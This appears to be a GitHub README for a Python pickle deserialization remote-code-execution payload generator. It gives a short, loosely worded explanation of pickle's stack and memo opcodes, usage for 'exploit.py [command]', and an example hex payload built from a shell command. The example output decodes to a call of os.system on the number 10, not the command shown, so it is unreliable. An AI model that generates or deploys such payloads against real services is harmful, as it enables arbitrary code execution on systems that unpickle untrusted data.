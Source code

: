 # Pickle RCE payload
[![Python3.x](https://img.shields.io/badge/python-3.x-FADA5E.svg?logo=python)](https://www.python.org/)

### Python's pickling deserialization Remote Code Execution payload generator

**Pickle** is a python package used to 'serialize' an object to string format and store them to Pickle is a simple stack language, which means pickle has a variable stack.
Every time it finished 'deserializing' an object it stores it on the stack.
Every time it reaches a '.' while 'deserializing', it pop a variable from the stack. Besides, pickle has a temperary memo, like a clipboard.
'p0', 'p1' means put the top obj on the stack to memo and refer it as '0' or '1'
'g0', 'g1' act as get obj '0' or '1'

### Usage:
```sh
$ python3 exploit.py [command]
```

**Example:**

```sh
$ python3 exploit.py 'whoami; id'
b'8004951a000000000000008c05706f736978948c0673797374656d9493944b0a859452942e'
```
